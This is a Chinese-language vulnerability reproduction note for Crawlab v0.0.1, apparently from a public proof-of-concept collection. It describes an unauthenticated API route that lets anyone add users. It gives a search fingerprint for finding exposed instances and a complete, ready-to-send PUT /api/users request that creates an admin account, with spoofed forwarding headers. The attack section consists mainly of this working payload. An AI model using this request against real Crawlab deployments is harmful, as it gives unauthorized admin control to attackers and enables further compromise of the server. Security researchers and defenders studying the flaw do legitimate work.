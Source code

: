 # Crawlab users 任意用户添加漏洞

# Crawlab users 任意用户添加漏洞

## 漏洞描述

Crawlab users 的 api 存在任意用户添加，且添加为未授权接口，可通过添加后在后台进一步攻击

## 漏洞影响

```
Crawlab v0.0.1
```

## 网络测绘

```
title="Crawlab"
```

## 漏洞复现

登录页面

![](/images/202205241444454.png)

首先查看路由位置 main.go 文件

![](/images/202205241444511.png)

```
anonymousGrou 中为匿名可调用方法
authGroup	  中为认证可调用方法
```

可以看到 Putuser方法为添加用户，但存在匿名调用

![](/images/202205241444706.png)

根据字段生成添加用户的请求

```
PUT /api/users HTTP/1.1
Host: 
Content-Length: 83
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: Hm_lvt_c35e3a563a06caee2524902c81975add=1639222117,1639278935; Hm_lpvt_c35e3a563a06caee2524902c81975add=1639278935
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

{"username":"testppp","password":"testppp","role":"admin","email":"testppp@qq.com"}
```

![](/images/202205241444367.png)

![](/images/202205241444319.png)

